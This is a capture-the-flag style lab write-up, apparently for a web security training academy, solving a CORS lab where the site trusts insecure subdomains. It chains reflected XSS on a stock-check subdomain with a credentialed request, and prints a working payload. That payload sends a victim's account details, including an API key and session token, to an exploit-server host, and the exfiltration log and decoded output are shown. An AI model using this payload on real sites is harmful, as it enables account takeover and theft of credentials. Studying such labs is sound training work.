





# **CORS vulnerability with trusted insecure protocols**

To start we test the 2 vulnerabilities with the origin we saw in the previous labs:

1.  Arbitrary value

<!-- -->

2.  Null value

They don’t work, so the guide suggest to check for a subdomain on a malicious domain:



And it doesn’t work either.

Next test is for subdomains:



And it seems it does trust all subdomains.

Checking through the site, there is a button to check stock that behaves kind of weird:



We see that there is a subdomain being called. We can check if we can modify the params to use scripts:



Which works as seen in the image.

So we can modify the script used in previous lab to fit in the param:

```
<html>
<body>
<script>
document.location = "http://stock.0a0700ca0386956c80d9b29c007e0057.web-security-academy.net/?productId=<script>var xhr = new XMLHttpRequest();var url = 'https://0a0700ca0386956c80d9b29c007e0057.web-security-academy.net/accountDetails';xhr.onreadystatechange=function(){if(xhr.readyState==XMLHttpRequest.DONE){fetch('https://exploit-0a0c00d903d295298037b17c01930044.exploit-server.net/log?key=' %2b btoa(xhr.responseText));};}; xhr.open('GET', url, true); xhr.withCredentials = true; xhr.send(null);%3c/script>&storeId=1";
</script>
</body>
</html>
```

Then store and deliver to victim to get:

```
10.0.3.149      2024-11-22 00:41:03 +0000 "GET /log?key=ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogIk5vZERkZTBaMWhmMTdVS1ZUdHEwYXVvUlBOYlhFSFFyIiwKICAic2Vzc2lvbnMiOiBbCiAgICAidXlVN3pUVmwwVGxuTHdhQUhVd0V5N2UwNXdqU1lLcW8iCiAgXQp9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

Decoded:

```
{
  "username": "administrator",
  "email": "",
  "apikey": "NodDde0Z1hf17UKVTtq0auoRPNbXEHQr",
  "sessions": [
    "uyU7zTVl0TlnLwaAHUwEy7e05wjSYKqo"
  ]
}
```

And submit solution.
